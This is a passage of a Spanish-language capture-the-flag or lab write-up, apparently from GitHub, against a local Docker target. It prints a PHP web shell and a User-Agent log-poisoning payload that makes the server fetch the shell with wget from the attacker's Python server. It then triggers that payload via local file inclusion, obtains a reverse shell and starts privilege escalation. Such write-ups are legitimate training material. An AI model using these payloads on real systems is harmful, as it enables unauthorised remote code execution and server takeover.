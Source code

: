 ```bash
<?php
	echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```
lo guardo como `code.php` y seguido me levanto un servidor con python

```ruby
python3 -m http.server 80
```
despues inyecto un comando al servidor para que descargue `code.php`

```ruby
curl http://172.17.0.2 -A "<?php system('wget 172.17.0.1/code.php -O /var/www/html/code.php') ?>"
```

este comando va apuntar la descarga contra el servidor que levante con python y guardara `code.php` en donde yo pueda acceder desde el navegador, despues 
de enviar la peticion con el User-Agent malicioso, refresco desde el navegador `http://g00dj0b.reverse.dl/experiments.php?module=/var/log/apache2/access.log` y 
observo desde el server python que la descarga se a realizado

![image](https://github.com/user-attachments/assets/b49dde42-b756-4b7c-966e-3b55c5da69ea)

ahora desde el navegador podre ejecutar comandos y enviarme una `revershell`

![image](https://github.com/user-attachments/assets/d0de64dd-98f8-408b-8850-9d5be2a5862a)

aqui testeo el archivo php malicioso descargado que esta 100% funcional, ahora me enviare una `revershell`

![image](https://github.com/user-attachments/assets/98880ef4-0f96-4a11-91ae-c53420689ff0)

He ganado acceso al servidor!!!

## Escalada de Privilegios

### www-data

tratamiento de la terminal

```bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 38 columns 168
export TERM=xterm
export SHELL=bash
```
![image](https://github.com/user-attachments/assets/b271fd7d-63b2-43a7-a9f8-7613345c03e6)

veo que puedo ejecutar un script como el user `nova` asi que lo ejecuto para testear

![image](https://github.com/user-attachments/assets/5ecd7cd8-fae8-468c-8dec-e616ac0c45bc)
